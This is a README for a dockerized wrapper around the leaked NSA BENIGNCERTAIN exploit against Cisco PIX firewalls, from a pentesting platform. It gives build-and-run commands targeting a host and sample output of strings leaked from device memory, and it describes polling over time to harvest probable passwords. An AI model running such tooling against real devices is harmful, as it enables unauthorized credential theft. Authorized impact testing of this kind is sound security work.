 # Quickstart
```
$ git clone https://github.com/VirtueSecurity/benigncertain-monitor.git
$ cd benigncertain-monitor
$ sudo docker build . -t benign-monitor
$ sudo docker run -it benign-monitor <host>
```
The service will continuously poll the vulnerable pix, extract ascii strinsg from memory, store the strings in a local sqlite datebase, and show the most frequently observed strings:

```
Starting monitor against 10.0.6.1
        string  count
0         5$dx      3
1          0(0      3
2         $c{l      3
3       (0"t&j      3
4   R$dkd$hf7!      2
5    %d1N=8$i-      2
6        $c)P0      1
7         1NlD      1
8        1NlD'      1
9       $c)P(0      1
10     $c)P1@_      1
```

# Overview
This dockerized python script is a wrapper for the NSA BENIGNCERTAIN Cisco exploit. This script polls the vulnerable service over time to identify probable passwords and other potentially sensitive information. Since the NSA exploit previously only revealed a point in time status, we built this as a service to show impact over broader period of time.

# Credit

This service is an opensource component of our service-backed pentesting platform [PurpleLeaf](https://purpleleaf.io)

